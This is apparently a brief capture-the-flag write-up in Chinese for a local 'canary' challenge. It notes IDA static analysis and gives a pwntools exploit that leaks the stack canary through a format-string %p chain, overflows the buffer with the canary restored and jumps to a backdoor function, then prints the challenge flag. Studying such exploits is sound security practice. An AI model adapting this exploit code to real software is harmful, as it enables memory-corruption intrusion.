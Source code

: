 1. IDA静态分析，格式化字符串泄露canary，溢出时在正确位置放入canary得到

exp：

```
from pwn import *

context(log_level='debug',arch='amd64',os='linux')
io = process('/home/kali/Desktop/canary')
backdoor = 0x401262

payload1 = b'aaaaaaaa%p%p%p%p%p%p%p%p%p%p%p'
io.sendafter(b"Give me some gift?",payload1)

canary = io.recvuntil(b"magic").decode(encoding='utf-8').split('0x')[-1]
canary = canary[:len(canary)-18:]
canary = '0x'+canary
canary = int(canary,16)

payload2 = b'a'*(0x30-8) + p64(canary)+ p64(0xdeadbeef)+p64(backdoor)
# io.sendafter(b'Show me your magic\n',payload2)
io.send(payload2)
io.interactive()
```

flag{cedcad54-d28f-4a7e-897a-7bbcc19cd54c}
